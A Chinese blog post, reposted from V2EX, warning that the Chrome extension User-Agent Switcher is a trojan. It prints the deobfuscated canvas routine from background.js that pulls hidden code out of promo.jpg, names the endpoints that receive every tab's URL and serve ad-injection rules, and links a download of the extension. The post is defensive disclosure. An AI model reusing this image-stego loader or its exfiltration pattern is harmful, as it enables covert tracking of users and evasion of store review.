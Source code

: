 ```yaml
---
title: 懵逼！Chrome 的插件 User-Agent Switcher 是个木马
date: 2017-09-28 23:25:42.0
updated: 2021-12-22 17:01:20.0
url: /archives/2493
categories: 
- 我的地盘
tags: 
- 随笔
---
```


<p><img src="https://cdn.uu126.cn/201709/user-agent-switcher-fore-google-chrome1.jpg" alt="user-agent-switcher-fore-google-chrome1" title="user-agent-switcher-fore-google-chrome1"></p><p>Chrome 商店搜索 User-Agent Switcher,排第一的这个插件(45 万用户),是一个木马...<br /><a href="https://chrome.google.com/webstore/detail/user-agent-switcher-for-g/ffhkkpnppgnfaobgihpdblnhmmbodake">官方地址</a><br />无法访问？<br />这里有一个压缩包：链接: <a href="https://pan.baidu.com/s/1nvBRemH">https://pan.baidu.com/s/1nvBRemH</a> 密码: 4inq</p><p><img src="https://cdn.uu126.cn/201709/user-agent-switcher-fore-google-chrome.jpg" alt="user-agent-switcher-fore-google-chrome" title="user-agent-switcher-fore-google-chrome"></p><p>为了绕过 chrome 的审核策略,他把恶意代码隐藏在了<code> promo.jpg </code>里，<code> background.js </code>的第 80 行,从这个图片里解密出恶意代码并执行</p><pre><code>t.prototype.Vh = function(t, e) {
            if (&quot;&quot; === '../promo.jpg') return &quot;&quot;;
            void 0 === t &amp;&amp; (t = '../promo.jpg'), t.length &amp;&amp; (t = r.Wk(t)), e = e || {};
            var n = this.ET,
                i = e.mp || n.mp,
                o = e.Tv || n.Tv,
                h = e.At || n.At,
                a = r.Yb(Math.pow(2, i)),
                f = (e.WC || n.WC, e.TY || n.TY),
                u = document.createElement(&quot;canvas&quot;),
                p = u.getContext(&quot;2d&quot;);
            if (u.style.display = &quot;none&quot;, u.width = e.width || t.width, u.height = e.width || t.height, 0 === u.width || 0 === u.height) return &quot;&quot;;
            e.height &amp;&amp; e.width ? p.drawImage(t, 0, 0, e.width, e.height) : p.drawImage(t, 0, 0);
            var c = p.getImageData(0, 0, u.width, u.height),
                d = c.data,
                g = [];
            if (c.data.every(function(t) {
                    return 0 === t
                })) return &quot;&quot;;
            var m, s;
            if (1 === o)
                for (m = 3, s = !1; !s &amp;&amp; m &lt; d.length &amp;&amp; !s; m += 4) s = f(d, m, o), s || g.push(d[m] - (255 - a + 1));
            var v = &quot;&quot;,
                w = 0,
                y = 0,
                l = Math.pow(2, h) - 1;
            for (m = 0; m &lt; g.length; m += 1) w += g[m] = h &amp;&amp; (v += String.fromCharCode(w &amp; l), y %= h, w = g[m] &gt;&gt; i - y);
            return v.length &lt; 13 ? &quot;&quot; : (0 !== w &amp;&amp; (v += String.fromCharCode(w &amp; l)), v)
        }</code></pre><p>会把你打开的每个 tab 的 url 等信息加密发送到 <a href="https://uaswitcher.org/logic/page/data">https://uaswitcher.org/logic/page/data</a><br />另外还会从 <a href="http://api.data-monitor.info/api/bhrule?sub=116">http://api.data-monitor.info/api/bhrule?sub=116</a> 获取推广链接的规则,打开符合规则的网站时,会在页面插入广告甚至恶意代码.<br />根据 threatbook 上的信息( <a href="https://x.threatbook.cn/domain/api.data-monitor.info">https://x.threatbook.cn/domain/api.data-monitor.info</a> ),我估计下面的几个插件都是这个作者的作品..</p><p><a href="https://chrome.google.com/webstore/detail/nenhancer/ijanohecbcpdgnpiabdfehfjgcapepbm">https://chrome.google.com/webstore/detail/nenhancer/ijanohecbcpdgnpiabdfehfjgcapepbm</a></p><p><a href="https://chrome.google.com/webstore/detail/allow-copy/abidndjnodakeaicodfpgcnlkpppapah">https://chrome.google.com/webstore/detail/allow-copy/abidndjnodakeaicodfpgcnlkpppapah</a></p><p><a href="https://chrome.google.com/webstore/detail/%D1%81%D0%BA%D0%B0%D1%87%D0%B0%D1%82%D1%8C-%D0%BC%D1%83%D0%B7%D1%8B%D0%BA%D1%83-%D0%B2%D0%BA%D0%BE%D0%BD%D1%82%D0%B0%D0%BA%D1%82%D0%B5/hanjiajgnonaobdlklncdjdmpbomlhoa">https://chrome.google.com/webstore/detail/%D1%81%D0%BA%D0%B0%D1%87%D0%B0%D1%82%D1%8C-%D0%BC%D1%83%D0%B7%D1%8B%D0%BA%D1%83-%D0%B2%D0%BA%D0%BE%D0%BD%D1%82%D0%B0%D0%BA%D1%82%D0%B5/hanjiajgnonaobdlklncdjdmpbomlhoa</a></p><p><a href="https://chrome.google.com/webstore/detail/aliexpress-radar/pfjibkklgpfcfdlhijfglamdnkjnpdeg">https://chrome.google.com/webstore/detail/aliexpress-radar/pfjibkklgpfcfdlhijfglamdnkjnpdeg</a></p><p>有在用这个扩展的亲们，赶紧起床删了吧！</p><p>本文转载自：<a href="https://www.v2ex.com/t/389340">https://www.v2ex.com/t/389340</a></p>